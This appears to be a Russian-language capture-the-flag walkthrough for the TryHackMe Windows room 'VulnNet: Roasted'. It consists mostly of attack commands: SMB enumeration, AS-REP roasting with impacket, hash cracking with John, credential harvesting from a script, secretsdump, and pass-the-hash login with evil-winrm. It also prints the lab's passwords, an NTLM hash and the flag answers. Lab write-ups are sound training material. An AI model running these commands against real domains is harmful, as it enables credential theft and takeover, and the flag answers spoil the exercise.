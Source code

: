 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [VulnNet: Roasted](https://tryhackme.com/r/room/vulnnetroasted) 

Всего 1 заданиe:
## Задание 1
VulnNet Entertainment только что развернули новый экземпляр в своей сети с недавно нанятыми системными 
администраторами. Будучи компанией, заботящейся о безопасности, они, как всегда, наняли вас для проведения теста на 
проникновение и проверки работы системных администраторов.  

Уровень сложности: легкий
Операционная система: Windows
Это гораздо более простая машина, не думайте слишком много. Вы можете сделать это, следуя общепринятым методикам.

Примечание: Полная загрузка компьютера может занять до 6 минут.

Значок создан DinosoftLabs с сайта www.flaticon.com

### Ответьте на вопросы ниже
Что такое флаг пользователя? (Desktop\user.txt)
```commandline
nmap -sC -sV -p- <IP>
smbclient -L <IP>
smbmap -u anonymous -H <IP>
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@<IP> | tee users.txt
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
cat users.txt

python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py \
        -dc-ip <IP> \ 
        -usersfile users.txt \
        -no-pass \
        vulnnet-rst.local/
        
/data/src/john/run/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# User: t-skid
# Password: tj072889*

smbclient -U vulnnet-rst.local/t-skid //<IP>/NETLOGON
ls
get ResetPassword.vbs -
# User: a-whitehat
# Password: bNdKVkjv3RR9ht

evil-winrm -i <IP> -u a-whitehat -p "bNdKVkjv3RR9ht"
cd enterprise-core-vn\Desktop
cat user.txt
```
```commandline
THM{726b7c0baaac1455d05c827b5561f4ed}
```
Что такое системный флаг? (Desktop\system.txt)
```commandline
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@<IP>
evil-winrm -i <IP> -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
```
```commandline
THM{16f45e3934293a57645f8d7bf71d8d4c}
```



[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)